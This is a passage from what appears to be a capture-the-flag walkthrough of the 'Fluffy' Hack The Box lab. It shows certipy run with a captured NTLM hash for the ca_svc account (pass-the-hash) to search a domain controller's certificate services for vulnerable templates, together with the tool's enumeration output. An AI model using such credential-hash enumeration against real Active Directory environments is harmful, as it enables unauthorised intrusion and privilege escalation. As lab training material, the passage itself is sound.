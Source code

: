         Template Name                       : CA
        Template Name                       : WebServer
        Template Name                       : DomainController
        Template Name                       : Machine
        Template Name                       : MachineEnrollmentAgent
        Template Name                       : EnrollmentAgentOffline
        Template Name                       : EnrollmentAgent
        Template Name                       : CTLSigning
        Template Name                       : CodeSigning
        Template Name                       : EFSRecovery
        Template Name                       : Administrator
        Template Name                       : EFS
        Template Name                       : SmartcardLogon
        Template Name                       : ClientAuth
        Template Name                       : SmartcardUser
        Template Name                       : UserSignature
        Template Name                       : User



```python
!certipy find -u ca_svc -hashes :CA0F4F9E9EB8A092ADDF53BB03FC98C8 -target-ip $target -enabled -vulnerable -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'fluffy-DC01-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'fluffy-DC01-CA' via CSRA: Could not connect: timed out
    [*] Trying to get CA configuration for 'fluffy-DC01-CA' via RRP
    [*] Got CA configuration for 'fluffy-DC01-CA'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : fluffy-DC01-CA
        DNS Name                            : DC01.fluffy.htb
        Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
        Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
        Certificate Validity Start          : 2025-04-17 16:00:16+00:00
        Certificate Validity End            : 3024-04-17 16:11:16+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : FLUFFY.HTB\Administrators
          Access Rights
            ManageCertificates              : FLUFFY.HTB\Domain Admins
                                              FLUFFY.HTB\Enterprise Admins
                                              FLUFFY.HTB\Administrators
            ManageCa                        : FLUFFY.HTB\Domain Admins
                                              FLUFFY.HTB\Enterprise Admins
                                              FLUFFY.HTB\Administrators
            Enroll                          : FLUFFY.HTB\Cert Publishers
    Certificate Templates                   : [!] Could not find any certificate templates
